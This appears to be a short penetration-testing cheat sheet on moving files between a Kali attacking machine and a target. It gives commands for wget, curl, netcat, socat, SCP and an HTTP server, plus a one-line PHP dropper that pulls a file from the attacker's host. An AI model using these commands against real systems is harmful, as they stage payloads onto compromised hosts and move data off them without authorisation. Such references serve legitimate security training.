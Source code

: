 ## Kali Machine(Attacking machine)- We need to start the http server to serve the files so that other systems can access it.

### HTTP Server
```python
python -m SimpleHTTPServer 80
python -m http.server 80
```

### Wget
```bash
wget http://192.168.1.2/filename.txt
```

### Curl
```bash
curl http://192.168.1.2/filename.txt -o filename.txt
```

## Netcat

### Target Linux
```bash
nc -nlvp 4444 > outputfile.exe
```
### Kali
```bash
nc -nv 192.168.1.2 4444 < /usr/inputfile.exe
```

## Socat
### Kali
```bash
socat TCP4-LISTEN:443,fork file:file.txt
```
### Target Linux
```bash
socat TCP4:192.168.1.2:443 file:file.txt,create
```

### SCP
```bash
scp /source/path/file.zip username@192.168.1.2:/destination/path/file.zip
```

### PHP
```bash
echo "<?php file_put_contents('filename', fopen('http://192.168.1.2/filename', 'r')); ?>" > filename.php
```
